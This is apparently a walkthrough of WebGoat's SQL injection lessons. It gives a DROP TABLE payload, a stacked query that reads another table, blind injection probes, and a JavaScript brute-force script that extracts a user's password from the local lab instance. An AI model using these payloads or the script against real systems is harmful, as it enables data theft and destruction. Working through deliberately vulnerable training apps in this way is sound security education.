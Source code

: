1. `'; DROP TABLE access_log;--`

## SQL Injection (advanced)

### Lesson 3: Try It! Pulling data from other tables

1. Name: `Smith'; SELECT * FROM user_system_data WHERE 1='1`

### Lesson 5: Blind SQL injection

The first tricky lesson. The goal is to retrive Tom\`s password. The `Register` tab returns different user names if one is already registered. That is your way in.

``` sql
tom' AND substring(password,1,1) = 't
```

`User {0} already exists please try to register with a different username.`

``` sql
tom' AND substring(password,1,1) = 'a
```

`User tom' AND substring(password,1,1) = 'a created, please proceed to the login page.`

Thankfuly email can be the same every time. So it is time to write the script to brute force password.

``` js
async function tryRegister(n) {
  const options = {
    method: "PUT",
    headers: {
      "Accept": "application/json",
      "Content-Type": "application/x-www-form-urlencoded; charset=UTF-8",
      "Cookie": "JSESSIONID=wVOZgVTHAiWKuaok8Mvwam7Dw",
    }
  }

  const url = "http://localhost:8081/WebGoat/SqlInjectionAdvanced/challenge"
  const alphabet = 'abcdefghijklmnopqrstuvwxyz';
  let password = "";

  for (let i = 0; i < n; i++) {
    let letter;
    for (let j = 0; j < alphabet.length; j++) {
      letter = alphabet.charAt(j)
      const response = await fetch(url, {
        ...options,
        body: `username_reg=tom'+AND+substring(password%2C${i + 1}%2C1)+%3D+'${letter}&email_reg=tom%40gmail.com&password_reg=123&confirm_password_reg=123`,
      });
      const json = await response.json();

      if (!json.feedback.startsWith('User tom')) {
        password += letter;
        console.log(`${i + 1}/${n}`, letter);
        break;
      }
    }
  }
  return password;
}

console.log(await tryRegister(23))
```
